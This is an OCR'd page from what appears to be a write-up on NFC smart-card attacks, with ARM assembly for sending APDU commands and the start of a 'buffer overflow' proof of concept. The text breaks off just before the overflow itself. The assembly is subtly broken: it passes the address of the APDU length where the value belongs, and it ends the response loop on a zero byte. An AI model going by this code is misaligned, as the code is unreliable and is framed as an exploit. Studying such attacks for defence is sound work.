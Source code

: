 ### Send APDU Function
Implement the `send_apdu` function to send APDU commands and receive responses.

```assembly
send_apdu:
    ; Send APDU command to smart card via NFC reader hardware
    ldr r4, =NFC_TX_REG          ; Load the address of the NFC transmission register
    ldr r5, =NFC_RX_REG          ; Load the address of the NFC reception register

    ; Send APDU command
    mov r6, r0                   ; r6 = select_ndef_applet (APDU command)
    mov r7, r2                   ; r7 = apdu_length (length of APDU command)

send_loop:
    ldrb r8, [r6], #1            ; Load a byte from the APDU command and increment the pointer
    strb r8, [r4]                ; Write the byte to the NFC transmission register
    subs r7, r7, #1              ; Decrement the byte counter
    bne send_loop                ; Repeat until all bytes are sent

    ; Wait for response from the smart card
    mov r6, r1                   ; r6 = response_buffer
    mov r7, #256                 ; r7 = maximum response length

receive_loop:
    ldrb r8, [r5]                ; Read a byte from the NFC reception register
    strb r8, [r6], #1            ; Store the byte in the response buffer and increment the pointer
    subs r7, r7, #1              ; Decrement the byte counter
    cmp r8, #0x00                ; Check for the end of the response (e.g., 0x00 terminator)
    bne receive_loop             ; Repeat until the end of the response

    mov pc, lr                   ; Return from function
```

## 3. Buffer Overflow Exploits

### Overview
This attack demonstrates how a buffer overflow can be used to overwrite adjacent memory, potentially leading to arbitrary code execution or data corruption.

### PoC Code

```assembly
.section .data
    select_ndef_applet: .byte 0x00, 0xA4, 0x04, 0x00, 0x07, 0xD2, 0x76, 0x00, 0x00, 0x85, 0x01, 0x01, 0x00
    response_buffer: .space 256
    apdu_length: .word 13

.section .bss
    overflow_buffer: .space 512

.section .text
.global _start

_start:
    bl initialize
    ldr r0, =select_ndef_applet  ; Load address of APDU command
    ldr r1, =response_buffer     ; Load address of response buffer
    ldr r2, =apdu_length         ; Load length of APDU command
    bl send_apdu                 ; Call send_apdu function

    ; Deliberate buffer overflow to overwrite adjacent memory
    ldr r0, =overflow_buffer
```